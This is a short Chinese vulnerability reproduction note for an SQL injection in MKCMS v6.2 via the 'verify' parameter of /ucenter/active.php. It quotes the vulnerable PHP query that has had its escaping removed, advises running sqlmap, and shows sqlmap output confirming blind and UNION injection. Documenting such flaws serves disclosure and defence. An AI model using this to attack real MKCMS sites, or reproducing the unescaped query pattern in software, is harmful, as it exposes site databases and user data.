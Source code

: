 MKCMS v6.2 /ucenter/active.php前台sql注入漏洞
=============================================

一、漏洞简介
------------

二、漏洞影响
------------

MKCMS v6.2

三、复现过程
------------

`/ucenter/active.php?verify=1`存在注入

    /ucenter/active.php
    <?php
    ...
    $verify = stripslashes(trim($_GET['verify']));  //去掉了转义用的    $nowtime = time();
    $query = mysql_query("select u_id from mkcms_user where u_question='$verify'");
    $row = mysql_fetch_array($query);
    ...

sqlmap直接跑即可

    [INFO] GET parameter 'verify' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
    [INFO] GET parameter 'verify' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable

参考链接
--------

> https://xz.aliyun.com/t/7580\#toc-4
